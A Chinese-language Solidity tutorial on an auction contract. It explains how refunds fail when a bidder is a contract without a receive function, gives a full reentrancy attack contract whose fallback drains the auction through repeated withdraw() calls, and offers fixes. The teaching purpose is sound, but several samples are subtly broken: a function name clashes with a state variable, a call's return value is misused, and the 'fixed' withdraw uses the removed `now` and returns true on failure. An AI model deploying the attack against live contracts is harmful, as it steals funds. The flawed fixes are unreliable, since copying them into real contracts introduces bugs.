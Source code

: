 ## **--> 拍卖合约C：**  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleAuction {
    address public beneficiary;    // 拍卖受益人
    uint public auctionEnd;        // 结束时间
    address public highestBidder;  // 当前最高出价人
    mapping(address => uint) bids; // 所有竞拍者价格（哈希表）
    address[] bidders;             // 所有竞拍者（用于遍历哈希表的键数组）
    bool ended;                    // 拍卖状态标志（默认 false）

    // 事件定义
    event HighestBidIncreased(address bidder, uint amount);  // 最高出价更新
    event AuctionEnded(address winner, uint amount);         // 拍卖结束

    // 构造函数：初始化拍卖时间和受益人
    constructor(uint _biddingTime, address _beneficiary) {
        beneficiary = _beneficiary; 
        auctionEnd = block.timestamp + _biddingTime;  
    }

    // 拍卖出价函数
    function bid() public payable {
        // 检查拍卖是否未结束
        require(block.timestamp <= auctionEnd, "Auction already ended");
        
        // 检查出价是否高于当前最高价
        require(bids[msg.sender] + msg.value > bids[highestBidder], "Bid not higher than current highest");

        // 如果是新竞拍者，加入竞拍者列表
        if (bids[msg.sender] == 0) {
            bidders.push(msg.sender);
        }

        // 更新最高出价者和出价金额
        highestBidder = msg.sender;
        bids[msg.sender] += msg.value;
        emit HighestBidIncreased(msg.sender, bids[msg.sender]);
    }

    // 拍卖结束函数：分配资金
    function auctionEnd() public {  
        // 检查拍卖是否已结束
        require(block.timestamp >= auctionEnd, "Auction not yet ended");
        // 检查是否已执行过结束逻辑
        require(!ended, "Auction end already called");

        // 将最高出价转给受益人
        beneficiary.transfer(bids[highestBidder]);

        // 向未中标的竞拍者退款
        for (uint i = 0; i < bidders.length; i++) { 
            address bidder = bidders[i];
            if (bidder == highestBidder) continue;  
            bidder.transfer(bids[bidder]);  // 返还未中标者的资金
        }

        // 标记拍卖已结束
        ended = true;
        emit AuctionEnded(highestBidder, bids[highestBidder]);
    }
}
```
- 恶意 合约B，没有fallback()、receive()函数
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./SimpleAuction.sol";

contract hackB{
    function hack_bid(address addr) payable public{
        SimpleAuction sa = SimpleAuction(addr);
        sa.bid{value: msg.value}();
    }
}
```
## **--> 情景描述：**

拍卖交易，有**用户A** 通过 **恶意合约B** 访问**拍卖合约C** ， 用户A 未中标，合约C 退款。

## **-->问题描述：**
### 【1】合约C主动退款，在 恶意合约B 中 未写  ``fallback()``和``receive()`` 函数
#### 1、退款交易失败  
- 若 C 使用transfer或send转账（固定 2300 gas）：由于 B 没有receive()/fallback()，转账会消耗完 gas 并触发回滚，整个退款交易失败，A 无法收到退款
- 若 C 使用call转账且未检查返回值：转账失败但 C 可能误认为成功，导致 A 的退款记录被标记为 “已完成”，但实际未收到资金，形成资金丢失

#### 2、资金可能被锁定在 C 中  
若 C 的退款逻辑是 “一旦触发退款，就从用户的竞拍保证金中扣除并转账”，而转账失败后 C 未处理 “转账失败” 的情况（如未将保证金归还给用户 A 的账户），则 A 的资金会被永久锁定在 C 中，既无法完成退款，也无法用于其他操作。

#### 3、调用链状态不一致  
若 B 在调用 C 的退款前已修改自身状态（如标记 “A 已发起退款”），但 C 的转账失败导致整体交易回滚，可能造成 B 的状态与 C 的状态不一致（如 B 认为退款成功，C 认为未成功）。

### 【2】合约C 被动退款，在 恶意合约B 中**写了** ``fallback()``和``receive()``，但 fallback() 函数中循环访问 合约C 退款函数，产生重入攻击(Re-entrancy Attack)，导致 合约C的钱 都被转走。   
示例如下：  
- 拍卖合约 C 中取回出价的函数：
```solidity
// 使用 withdraw 模式
// 由投标者自己取回出价，返回是否成功
function withdraw() public returns(bool){
    //判断拍卖已截止
    require( block.timestamp > auctionEnd);
    // 取回出价最高者不能是竞拍成功者
    require(msg.sender != highestBidder);
    // 当前地址有钱可用
    require(bids[msg.sender] > 0);

    //-----向调用者转账------
    uint amount = bids[msg.sender];
    if(msg.sender.call{value: amount}("")){
        bids[msg.sender] = 0;
        return true;
    }
    return false;
}
```
- 恶意合约 B ：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 引入拍卖合约
import "./SimpleAuctionV2.sol";

contract B {
    uint stack = 0;

    // 调用拍卖合约函数 bid() 参与竞拍
    function hack_bid(address addr) payable public {
        SimpleAuctionV2 sa = SimpleAuctionV2(addr);
        sa.bid{value: msg.value}(); 
    }

    // 调用拍卖合约的 withdraw() 函数取回钱
    function hack_withdraw(address addr) public {
        SimpleAuctionV2(addr).withdraw();
    }

    // 递归调用直到【1】合约C中钱不够了，【2】gas费不够了，【3】调用栈溢出
    fallback() external payable {
        stack += 2;
        // 判断合约C余额足以支持转账、gas费大于6000、栈深度小于500
        if (msg.sender.balance >= msg.value && gasleft() > 6000 && stack < 500) { 
            SimpleAuctionV2(msg.sender).withdraw(); 
        }
    }
}

```
## **-->解决方案：**  
#### - 方案1：优化 withdraw 中 转账部分  
```solidity
// 使用 withdraw 模式
// 由投标者自己取回出价，返回是否成功
function withdraw() public returns(bool){
    //判断拍卖已截止
    require( now > auctionEnd);
    // 取回出价最高者不能是竞拍成功者
    require(msg.sender != highestBidder);
    // 当前地址有钱可用
    require(bids[msg.sender] > 0);

    //-----优化 向调用者转账------
    uint amount = bids[msg.sender];  //获取余额
    bids[msg.sender] = 0;            //提前清零
    if(!msg.sender.send(amount)){    //使用 send() 转账，gas费固定 2300
        bids[msg.sender] = amount;   //不符合条件时恢复余额 
        return true;
    }
    return false;
}
```
#### - 方案2：采用”拉取模式“ （Withdraw）替代”推动模式“（Push） 
- C 合约仅记录用户 A 的可退款金额，不主动向 B 转账；
- 竞拍允许用户账户参与（可选）  
- 退款时只能 用户A **主动**从 合约C 提取资金，绕过合约B   

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
// 竞拍合约
contract Auction {
    mapping(address => uint256) public userDeposits; // 记录用户A（EOA）的保证金

    // 退款时强制验证接收地址为EOA（非合约）
    function refundToUser(address payable userA) external {
        uint256 amount = userDeposits[userA];
        require(amount > 0, "No deposit to refund");

        // 关键：验证接收地址是EOA（合约地址的code.length > 0）
        require(userA.code.length == 0, "Refund only to EOA (non-contract)");

        // 检查-生效-交互（重要！！！）
        userDeposits[userA] = 0;
        (bool success, ) = userA.call{value: amount}("");
        require(success, "Refund failed");
    }

    // 接收竞拍保证金（仅允许EOA存入，可选）
    receive() external payable {
        // 确保存款来自EOA（防止合约批量攻击，可选增强）
        require(msg.sender.code.length == 0, "Only EOA can deposit");
        userDeposits[msg.sender] += msg.value;
    }
}
``` 


